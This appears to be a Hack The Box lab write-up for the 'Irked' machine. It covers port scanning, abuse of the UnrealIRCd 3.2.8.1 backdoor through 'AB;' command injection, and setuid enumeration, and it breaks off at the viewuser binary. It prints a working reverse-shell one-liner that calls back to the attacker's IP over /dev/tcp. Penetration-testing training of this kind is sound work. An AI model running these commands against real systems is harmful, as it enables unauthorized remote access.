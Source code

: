 # HTB - Irked
## OS - Linux

I started with an nmap scan of Irked (IP address: 10.10.10.117).

```
$nmap -sC -sV -oN irked.nmap 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          54652/tcp6  status
|   100024  1          55037/udp   status
|   100024  1          55516/udp6  status
|_  100024  1          58121/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

When I browse to the web page, I see a jpg and "IRC is almost working!" message. nmap scan doesn't show anything about IRC, so doing another nmap scan. (judging by the name, Irked might be something to do with IRC.)

```
$nmap -vvv -p- 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-20 17:25 PST
Initiating Ping Scan at 17:25
Scanning 10.10.10.117 [2 ports]
Completed Ping Scan at 17:25, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:25
Completed Parallel DNS resolution of 1 host. at 17:25, 1.03s elapsed
DNS resolution of 1 IPs took 1.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 17:25
Scanning 10.10.10.117 [65535 ports]
Discovered open port 22/tcp on 10.10.10.117
Discovered open port 80/tcp on 10.10.10.117
Discovered open port 111/tcp on 10.10.10.117
Increasing send delay for 10.10.10.117 from 0 to 5 due to max_successful_tryno increase to 4
Connect Scan Timing: About 5.61% done; ETC: 17:34 (0:08:42 remaining)
Increasing send delay for 10.10.10.117 from 5 to 10 due to max_successful_tryno increase to 5
Connect Scan Timing: About 9.86% done; ETC: 17:36 (0:09:18 remaining)
Connect Scan Timing: About 27.44% done; ETC: 17:37 (0:08:46 remaining)
Connect Scan Timing: About 33.34% done; ETC: 17:37 (0:08:08 remaining)
Increasing send delay for 10.10.10.117 from 10 to 20 due to max_successful_tryno increase to 6
Connect Scan Timing: About 52.69% done; ETC: 17:41 (0:07:31 remaining)
Connect Scan Timing: About 60.17% done; ETC: 17:42 (0:06:42 remaining)
Discovered open port 58121/tcp on 10.10.10.117
Discovered open port 8067/tcp on 10.10.10.117
Increasing send delay for 10.10.10.117 from 20 to 40 due to max_successful_tryno increase to 7
Increasing send delay for 10.10.10.117 from 40 to 80 due to max_successful_tryno increase to 8
Discovered open port 6697/tcp on 10.10.10.117

```
Ran nmap scans on each port again. 58121 turned out to be RPC service. Port 8067 was running IRC.

```
Nmap scan report for 10.10.10.117
Host is up (0.096s latency).

PORT     STATE SERVICE VERSION
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.28 seconds
```

Trying to nc resulted in a timeout.

```
$nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
ERROR :Closing Link: [10.10.14.16] (Ping timeout)
```


After learning some IRC commands, we repeat this. This time I entered some pass, nick, and user commands.
```
PASS test123
NICK test123
USER test123 testing testing :test123
```
The output was:
```
$nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
PASS test123
NICK test123
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
USER test123 testing testing :test123
:irked.htb 001 test123 :Welcome to the ROXnet IRC Network test123!test123@10.10.14.16
:irked.htb 002 test123 :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 test123 :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 test123 irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 test123 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 test123 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 test123 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 test123 :There are 1 users and 0 invisible on 1 servers
:irked.htb 255 test123 :I have 1 clients and 0 servers
:irked.htb 265 test123 :Current Local Users: 1  Max: 1
:irked.htb 266 test123 :Current Global Users: 1  Max: 1
:irked.htb 422 test123 :MOTD File is missing
:test123 MODE test123 :+iwx
```

We got the banner from the server, with version number - running version Unreal3.2.8.1.

It has a backdoor command execution vuln that can be used here. Metasploit module is available too.

https://lwn.net/Articles/392201/ has details on the vulnerability. If a command starts with "AB", it gets passed to system().

To test this - start tcpdump filtering for icmp.
In another window, send this to irked.htb.

```
echo "AB; ping -c 3 10.10.14.16" | nc 10.10.10.117 8067
```
Once the connection times out, we see the pings.

```
$sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
17:54:20.465603 IP 10.10.10.117 > 10.10.14.16: ICMP echo request, id 1465, seq 1, length 64
17:54:20.465714 IP 10.10.14.16 > 10.10.10.117: ICMP echo reply, id 1465, seq 1, length 64
```
Now we try a shell.

Running a nc listener on port 4444, we run this command:

```
$echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'" | nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead

```
In our nc listener, we get a shell.

```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.117] 36190
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$
```


Time to explore this machine. id command shows ircd.

Looking for setuid files shows 

```
ircd@irked:~/Unreal3.2$ find / -perm -4000
find / -perm -4000
find: `/lost+found': Permission denied
find: `/sys/kernel/debug': Permission denied
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
find: `/etc/ssl/private': Permission denied
find: `/etc/polkit-1/localauthority': Permission denied
find: `/etc/chatscripts': Permission denied
find: `/etc/cups/ssl': Permission denied
find: `/etc/ppp/peers': Permission denied
find: `/var/cache/ldconfig': Permission denied
find: `/var/cache/cups': Permission denied
find: `/home/djmardov/.gconf': Permission denied
find: `/home/djmardov/.local': Permission denied
find: `/home/djmardov/.config': Permission denied
find: `/home/djmardov/.mozilla': Permission denied
```

We have a user djmardov. Looking in /usr/bin for the other setuid files, "ls -lrt" shows that viewuser was modified last.

```
lrwxrwxrwx 1 root   root          35 May 11  2018 gnome-text-editor -> /etc/alternatives/gnome-text-editor
lrwxrwxrwx 1 root   root          20 May 11  2018 cc -> /etc/alternatives/cc
lrwxrwxrwx 1 root   root          21 May 11  2018 c89 -> /etc/alternatives/c89
lrwxrwxrwx 1 root   root          21 May 11  2018 c99 -> /etc/alternatives/c99
lrwxrwxrwx 1 root   root          21 May 11  2018 c++ -> /etc/alternatives/c++
lrwxrwxrwx 1 root   root          26 May 11  2018 fakeroot -> /etc/alternatives/fakeroot
-rwsr-xr-x 1 root   root        7328 May 16  2018 viewuser
```

When I run viewuser, I see it expects a file.
```
ircd@irked:/usr/bin$ viewuser
viewuser
(unknown) :0           2021-02-20 19:54 (:0)
sh: 1: /tmp/listusers: not found
This application is being devleoped to set and test user permissions
It is still being actively developed
ircd@irked:/usr/bin$ 
```

so we create a file 
